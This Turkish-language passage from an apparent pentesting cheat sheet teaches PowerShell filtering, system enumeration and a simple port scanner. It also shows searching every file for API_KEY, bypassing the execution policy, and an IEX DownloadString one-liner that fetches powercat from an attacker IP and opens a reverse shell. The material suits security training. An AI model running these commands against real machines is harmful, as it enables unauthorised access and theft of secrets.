Belirli bilgileri seçmek için aşağıdaki bayrakları da kullanabilirsiniz:

    first - ilk x nesnesini alır
    last - son x nesnesini alır
    unique - benzersiz nesneleri gösterir
    skip - x nesneyi atlar

Örneğin :



+ Objeleri Filtreleme

Çıkış nesnelerini alırken çok özel bir değerle eşleşen nesneleri seçmek isteyebilirsiniz. Bunu, özelliklerin değerine göre filtrelemek için Where-Object'i kullanarak yapabilirsiniz.

Bu cmdlet'i kullanmanın genel biçimi şöyledir:

+ Fiil-İsim | Where-Object -Property ÖzellikAdı -operatör Değer

+ Fiil-İsim | Where-Object {$_.ÖzellikAdı -operator Değer}

İkinci kullanım, Where-Object cmdlet'ine iletilen her nesneyi yinelemek için $_ operatörünü kullanır.

Powershell oldukça hassastır, bu nedenle komutun etrafına tırnak işareti koymayın!

Burada -operatör aşağıdaki operatörlerin listesidir:

+ -Contains: özellik değerinde belirtilen değer geçiyorsa
+ -EQ: özellik değeri belirtilen değerle aynıysa
+ -GT: özellik değeri belirtilen değerden büyükse

Durdurulan süreçlerin kontrol edilmesine bir örnek:



+ Objeleri Sıralamak

Bir cmdlet çok fazla bilgi verdiğinde, bilgiyi daha verimli bir şekilde çıkarmak için onu sıralamanız gerekebilir. Bunu, bir cmdlet'in çıktısını Sort-Object cmdlet'ine aktararak yaparsınız.

Komutun formatı şöyle olacaktır:

Fiil-İsim | Sort-Object

Aşağıda dizin listesini sıralamaya ilişkin bir örnek verilmiştir:

     Get-ChildItem | Sort-Object

+ Powershell Örnek Komutlar ve Enumeration

Dosya aramak :

     Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue

Dosya okumak :

     cat dosya_adi

veya

     Get-Content dosya_adi

Bir komut çıktısı objesinde filtreleme sonucunda gelen objenin toplam satırını bulmak :

     Get-Command | Where-Object -Parameter CommandType -eq Cmdlet | measure

Bir dosyanın md5 sum'ını almak :

     Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt" -Algorithm MD5

Şuanki lokasyon bilgisi :

     pwd

veya

     Get-Location

Bir dizinin var olup olmadığı :

     Test-Path dizin

Base64 ile encode edilmiş bir dosyanın içeriğini okumak :

     $file = "C:\input.txt"
     $data = Get-Content $file

     [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($data))

Bir makinedeki bütün kullanıcılar ve SID'leri :

     Get-LocalUser | Select-Object -Property Name,Enabled,Description,SID

Şifre istemeyen kullanıcılar :

     Get-LocalUser | Where-Object -Property PasswordRequired -Match false

Yerel gruplar

     Get-LocalGroup

IP Adres Bilgisi :

     Get-NetIPAddress

TCP Port Bilgileri

     Get-NetTCPConnection

Patch Bilgileri :

     Get-HotFix

Ayrıca piping ile Measure-Object diyerek girdileri saymak mümkün.

Sistemdeki tüm dosyalarda girilen veriyi aramak :

     Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY

İşlem Bilgisi :

     Get-Process

Planlanmış görevler (Linux crontab gibi) :

     Get-ScheduledTask

Bir dizinin/dosyanın sahibi :

     Get-Acl C:\

Örnek bir powershell programı :

     $files = Get-ChildItem -Recurse -File -Path "C:\Users\Administrator\Desktop\emails" -Name

     $search = "https://"

     cd "C:\Users\Administrator\Desktop\emails"

     foreach($file in $files){
          if(Get-Content $file | Select-String -Pattern $search){
               echo $file
          }
     }

Basit bir port scanner (TCP Connect Scan) :

     $ip_address = Read-Host "IP Address :"
     $starting_port = [System.Convert]::ToInt32((Read-Host "Starting port :"))
     $last_port = [System.Convert]::ToInt32((Read-Host "Last port :"))

     for($i=$starting_port; $i -le $last_port; $i++){
          $result = tnc $ip_address -port $i
          if($result.TcpTestSucceeded -eq "True"){
               echo $i + " is open"
          }
     }

#### Powershell Çalıştırma Politikası

Powershell dosyalarını cmd'den çalıştırmak için powershell -File dosya.ps1 kullanırız.



Fakat sistemlerin çoğunda bunu yapamayız çünkü çalıştırma politikası buna izin vermez.

PowerShell'in çalıştırma ilkesi, sistemi kötü amaçlı komut dosyalarının çalıştırılmasına karşı koruyan bir güvenlik seçeneğidir. Varsayılan olarak Microsoft, güvenlik amacıyla PowerShell komut dosyaları .ps1'in yürütülmesini devre dışı bırakır. PowerShell yürütme ilkesi Kısıtlı(Restricted) olarak ayarlanmıştır; bu, bireysel komutlara izin verdiği ancak herhangi bir komut dosyası çalıştırmadığı anlamına gelir.

Windows’unuzun mevcut PowerShell ayarını aşağıdaki gibi belirleyebilirsiniz,

Powershell'de --> Get-ExecutionPolicy

Bu politikayı kolayca değiştirebiliyoruz :

Powershell'de --> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned



Eğer powershell'e erişimimiz yok ise bu kısıtlamayı bypass edebiliyoruz :

powershell -ex bypass -File dosya.ps1



#### Powershell ile Reverse Shell Almak

Bunun için powercat aracını kullanacağız. Powercat, netcat'in windows için tasarlanmış halidir. Windows'ta port dinleme, bir port'a bağlanma, dosya transferi vb. yapılabilir. Git clone ile powercat'i kendi makinemize çektikten sonra powercat dizinine girip burada http server başlatıyoruz : python -m http.server 8080 Daha sonra bağlantıyı dinleyeceğimiz portu listening moda alıyoruz : nc -lvp 1337 Kurban makinede aşağıdaki komutu çalıştırdığımızda reverse shell'imizi elde etmiş oluyoruz :

     powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://SALDIRGAN_IP:8080/powercat.ps1');powercat -c SALDIRGAN_IP -p 1337 -e cmd"



## Password Attacks (Parola Saldırıları)

